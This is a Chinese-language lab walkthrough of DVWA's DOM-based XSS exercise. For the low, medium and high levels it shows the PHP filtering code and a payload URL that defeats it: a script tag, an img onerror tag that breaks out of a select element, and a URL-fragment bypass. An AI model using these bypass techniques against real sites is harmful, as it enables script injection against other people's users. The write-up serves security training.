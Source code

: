 <center>XSS DOMdom型xss</center>









[toc]







## XSS DOMdom型xss

> XSS DOMdom型xss









### 1. low

> 低级

```php
没有任何防护
    
<?php

# No protections, anything goes
```

```shell
# 可以直接插入前端代码
http://192.168.0.111:8000/vulnerabilities/xss_d/?default=English%3Cscript%3Ealert(/xss/)%3C/script%3E
```







### medium

> 中级

```php
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}

```

> 做了过滤： stripos：stripos() 函数查找字符串在另一字符串中第一次出现的位置（不区分大小写）。
>
>  [runoob](https://www.runoob.com/php/func-string-stripos.html)

```shell
# img 做弹窗
http://192.168.0.111:8000/vulnerabilities/xss_d/?default=English%3Cimg%20src=1%20onerror=alert(/xss/)%3E

# 写入到 value 中了
<option value="English%3Cimg%20src=1%20onerror=alert(/xss/)%3E">English</option>

# 绕过 加</select>闭合这个html
http://192.168.0.111:8000/vulnerabilities/xss_d/?default=English%3C/select%3E%3Cimg%20src=1%20onerror=alert(/xss/)%3E
```







### 3. high

> 高级

```php

<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}
```

> 逻辑方面的漏洞
>
> ```php
> # php 注释
> <! -- 注释 -- >
> ```

```shell
# get参数，把#后面的代码注释了。返回到前端了
http://192.168.0.111:8000/vulnerabilities/xss_d/?default=French#%3Cscript%3Ealert(/xss/)%3C/script%3E
```

